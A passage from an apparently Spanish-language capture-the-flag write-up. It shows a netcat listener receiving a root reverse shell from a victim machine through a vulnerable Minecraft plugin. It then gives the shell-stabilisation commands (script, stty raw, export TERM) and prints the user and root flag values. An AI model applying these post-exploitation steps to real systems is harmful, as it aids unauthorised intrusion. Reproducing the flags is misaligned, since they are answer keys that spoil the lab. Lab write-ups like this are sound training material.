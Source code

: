 Estando a la escucha si ejecutamos el comando anterior desde `Minecraft` y volvemos a donde tenemos la escucha veremos lo siguiente:

```
listening on [any] 7777 ...
connect to [192.168.177.129] from (UNKNOWN) [172.17.0.2] 47064
whoami
root
```

Vemos que hemos obtenido de forma exitosa una `shell` desde la maquina victima mediante un `plugin` vulnerable desde `Minecraft`, sanitizaremos la `shell`.

### Sanitización de shell (TTY)

```shell
script /dev/null -c bash
```

```shell
# <Ctrl> + <z>
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=/bin/bash

# Para ver las dimensiones de nuestra consola en el Host
stty size

# Para redimensionar la consola ajustando los parametros adecuados
stty rows <ROWS> columns <COLUMNS>
```

Una vez echo esto leeremos la `flag` del usuario y de `root`.

> user.txt

```
8725a65493f812597167d64cf85640e6
```

> root.txt

```
ebcc53fe4fcaffea2fe32390021783c4
```
